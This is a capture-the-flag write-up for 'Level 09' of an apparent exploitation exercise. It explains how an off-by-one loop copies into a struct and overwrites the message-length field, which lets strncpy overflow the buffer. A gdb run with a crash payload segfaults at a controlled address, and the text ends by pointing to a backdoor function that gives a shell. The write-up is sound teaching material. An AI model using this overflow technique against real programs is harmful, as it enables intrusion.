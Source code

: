 # Level 09

This level asks for a username then for a password, this data is stored in a
structure like this:

```c
typedef struct data {
	char	msg[140];
	char	usr[40];
	int		msg_length;
}	data;
```

The data is well written into memory, except for one little mistake.
The copy of the username (`data.usr`) is done before the message (`data.msg`).
This wouldn't be a problem, but the copying code copies one byte over the size of
the username string.

```c
for (i = 0; i <= 40 && s[i]; ++i)
	d->usr[i] = s[i];
```

The condition of the loop should be `i < 40 && s[i]` instead of `i <= 40 && s[i]`.
This little misteak makes it copy up to 41 bytes instead of 40.
The byte that is overflowing is overwriting the `data.msg_length` variable.
This is a big mistake considering that this is the variable that is checked
for the length of the message string.

```c
return strncpy(d->msg, s, d->msg_length);
```

This means that we have one byte to play with. Meaning that we can potentially
copy up to 255 bytes, this is 115 more than the intended and could cause memory
issues.

```gdb
(gdb) r < <(python -c 'print("\xff" * 2048)')
Starting program: /home/users/level09/level09 < <(python -c 'print("\xff" * 2048)')

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) c
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0xffffffffffffffff in ?? ()
```

Spot on, the program segfaults as we want. Now we need to find an address to go to.
Fortunately there is a `secret_backdoor` function that let us use a shell :)